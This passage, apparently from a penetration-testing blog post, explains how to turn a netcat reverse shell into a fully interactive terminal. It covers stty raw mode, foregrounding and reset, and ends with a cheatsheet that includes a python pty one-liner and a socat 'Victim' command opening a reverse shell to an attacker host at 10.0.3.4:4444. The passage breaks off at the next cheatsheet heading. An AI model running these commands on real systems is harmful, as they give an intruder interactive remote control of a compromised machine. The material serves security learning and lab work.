 With the shell still backgrounded, now set the current STTY to type raw and tell it to echo the input characters with the following command:

|                 |                                  |
| --------------- | -------------------------------- |
| ```<br>1<br>``` | ```bash<br>stty raw -echo<br>``` |

With a raw stty, input/output will look weird and you won’t see the next commands, but as you type they are being processed.

Next foreground the shell with `fg`. It will re-open the reverse shell but formatting will be off. Finally, reinitialize the terminal with `reset`.

[![Foreground and reset](https://blog.ropnop.com/images/2017/07/fg_reset.png)](https://blog.ropnop.com/images/2017/07/fg_reset.png)

_Note: I did not type the `nc` command again (as it might look above). I actually entered `fg`, but it was not echoed. The `nc` command is the job that is now in the foreground. The `reset` command was then entered into the netcat shell_

After the `reset` the shell should look normal again. The last step is to set the shell, terminal type and stty size to match our current Kali window (from the info gathered above)

|                           |                                                                                                     |
| ------------------------- | --------------------------------------------------------------------------------------------------- |
| ```<br>1<br>2<br>3<br>``` | ```bash<br>$ export SHELL=bash<br>$ export TERM=xterm256-color<br>$ stty rows 38 columns 116<br>``` |

The end result is a fully interactive TTY with all the features we’d expect (tab-complete, history, job control, etc) all over a netcat connection:

[![Netcat full TTY](https://blog.ropnop.com/images/2017/07/netcat_full_tty.png)](https://blog.ropnop.com/images/2017/07/netcat_full_tty.png)

The possibilities are endless now. Tmux over a netcat shell?? Why not? :D

[![Tmux over Netcat](https://blog.ropnop.com/images/2017/07/tmux_over_netcat-1.png)](https://blog.ropnop.com/images/2017/07/tmux_over_netcat-1.png)

# tl;dr cheatsheet

Cheatsheet commands:

**Using Python for a psuedo terminal**

|                 |                                                                  |
| --------------- | ---------------------------------------------------------------- |
| ```<br>1<br>``` | ```bash<br>python -c 'import pty; pty.spawn("/bin/bash")'<br>``` |

**Using socat**

|                                     |                                                                                                                                                                      |
| ----------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ```<br>1<br>2<br>3<br>4<br>5<br>``` | ```bash<br>#Listener:<br>socat file:`tty`,raw,echo=0 tcp-listen:4444<br><br>#Victim:<br>socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444<br>``` |

**Using stty options**
